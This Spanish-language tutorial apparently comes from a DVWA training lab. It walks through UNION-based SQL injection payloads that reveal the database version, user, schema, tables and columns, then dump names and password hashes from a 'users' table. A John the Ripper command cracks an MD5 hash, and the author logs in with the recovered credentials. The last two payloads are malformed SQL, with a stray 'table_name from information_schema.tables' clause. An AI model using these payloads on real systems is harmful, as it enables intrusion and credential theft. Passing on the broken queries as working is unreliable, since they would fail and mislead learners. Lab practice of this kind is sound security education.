





# Mas para SQL injection

Con 

`%' or '0'='0'

UNION SELECT null, version() #
`

Lo que estamos haciendo aca es viendo la version del servidor al final de la consulta

`%' or '0'='0'

UNION SELECT null, user() #
`

Aca traeremos el usuario actual de la base de datos

`%' or '0'='0'

UNION SELECT null, database() #
`

Con esto nos arroja el nombre de la base de datos actual

`%' or '0'='0'

UNION SELECT null, 

table_name from information_schema.tables #
`

Con esto lo que estamos es mirando el nombre de las tablas de la base de datos actual

`%' or '0'='0'

UNION SELECT null, 

table_name from information_schema.tables 

WHERE table_name like 'user%'
#
`

Lo que hacemos aca es aplicar un filtro para que solo traiga los nombres de las tablas
que comiencen por "user"

`%' or '1'='0'

UNION SELECT null, 

table_name from information_schema.tables 

CONCAT(table_name,0x0a,column_name)
FROM information_schema.columns
WHERE table_name = 'users'

#
`

Esto lo que hace es una concatenacion del nombre de la tabla, concatenacion hexa de un salto de linea
y que traiga el nombre de la columna en donde el nombre de la tabla sea users

`%' or '1'='0'

UNION SELECT null, 

table_name from information_schema.tables 

CONCAT(
first_name,0x0a,
last_name,0x0a,
user,0x0a,
password
)
FROM users

#
`

Por lo que podemos ver la clave esta cifrada por lo que para descifrarla podemos utilizar john

Primero guardamos el hash en un archivo en este caso utilizamos nano
luego utilizamos el comando

`john --format=raw-MD5 hashdvwa`

Esto lo que hara es mandarle el formato en el que esta el hash y el archivo que vera

Entonces podemos inferir que el user es 1337 y la clave es charley, por lo que nos salimos y entramos con esas credenciales

